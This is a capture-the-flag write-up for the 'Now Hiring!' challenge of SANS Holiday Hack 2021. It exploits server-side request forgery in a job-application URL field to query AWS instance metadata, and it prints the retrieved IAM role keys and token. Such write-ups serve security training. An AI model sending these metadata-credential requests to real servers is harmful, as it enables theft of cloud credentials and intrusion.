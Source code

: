 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 10. Now Hiring!
### 10.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
What is the secret access key for the [Jack Frost Tower job applications server](imgs/https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

### 10.1. [Side Challenge - IMDS Exploration](imgs//10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)

### 10.2. Hints
**AWS IMDS Documentation** - *Noxious O. D'or*: “The AWS documentation for IMDS is interesting reading.”

#### 10.3. Solution
The application form allows the insertion of an URL under the name of “URL to your public NLBI report”:  
![Apply](imgs/00_Apply.png)

I gave the URL of a computer I own and observed the application was fetching the URL specified without much control:
```bash
root@debian:~/hiring# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 …
34.132.188.111 - - [06/Jan/2022 08:44:41] "GET / HTTP/1.0" 200 -
34.132.188.111 - - [06/Jan/2022 08:44:56] code 404, message File not found
34.132.188.111 - - [06/Jan/2022 08:44:56] "GET /non-existent HTTP/1.0" 404 -
34.132.188.111 - - [06/Jan/2022 08:46:56] "GET /test_test_test HTTP/1.0" 200 -
```

When the file does not exist (`non-existent`), the application is just accepted:  
![01_non-existent.png](imgs/01_non-existent.png)

In case the file exist (`test_test_test`), the application shows more data:
![02_existent.png](imgs/02_existent.png)

Inspecting the broken image link, it is possible to recognize it is returning the content of the test page:
```bash
root@debian:~/hiring# curl "https://apply.jackfrosttower.com/images/asd.jpg"
Hi, I'm a test file!
```

At that point it was pretty straightforward to go ahead and test with AWS URLs considering the side challenge.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials I retrieved the `jf-deploy-role` user.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role:
```json
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

As the challenge required the `SecretAccessKey`, it is `CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX`.

#### 10.4. Thank you for the proxy
![meme](imgs/03_meme.png)

---
## [2. Where in the World is Caramel Santiaigo?](imgs/README.md)
## [2.1. Side Challenge - Exif Metadata](imgs/README.md)
## [3. Thaw Frost Tower's Entrance](imgs/README.md)
## [3.1. Side Challenge - Grepping for Gold](imgs/README.md)
## [4. Slot Machine Investigation](imgs/README.md)
## [4.1. Side Challenge - Logic Munchers](imgs/README.md)
## [5. Strange USB Device](imgs/README.md)
## [5.1. Side Challenge - IPv6 Sandbox](imgs/README.md)
## [6. Shellcode Primer](imgs/README.md)
## [6.1. Side Challenge - Holiday Hero](imgs/README.md)
## [7. Printer Exploitation](imgs/README.md)
## [7.0. Description](imgs/README.md)
## [8. Kerberoasting on an Open Fire](imgs/README.md)
## [8.1. Side Challenge - HoHo … No](imgs/README.md)
## [9. Splunk!](imgs/README.md)
## [9.1. Side Challenge - Yara Analysis](imgs/README.md)
## [10. Now Hiring!](imgs/README.md)
## [10.1. Side Challenge - IMDS Exploration](imgs/README.md)
## [11. Customer Complaint Analysis](imgs/README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](imgs/README.md)
## [12. Frost Tower Website Checkup](imgs/README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](imgs/README.md)
## [13. FPGA Programming](imgs/README.md)
## [13.1. Side Challenge - Frostavator](imgs/README.md)
## [14. Bonus! Blue Log4Jack](imgs/README.md)
## [15. Bonus! Red Log4Jack](imgs/README.md)
---
## [0. windovo\\thedead> whoami](imgs/../README.md)
## [1. KringleCon Orientation](imgs/01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](imgs/../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](imgs/../README.md#17-narrative)
## [18. Conclusions](imgs/../README.md#18-conclusions)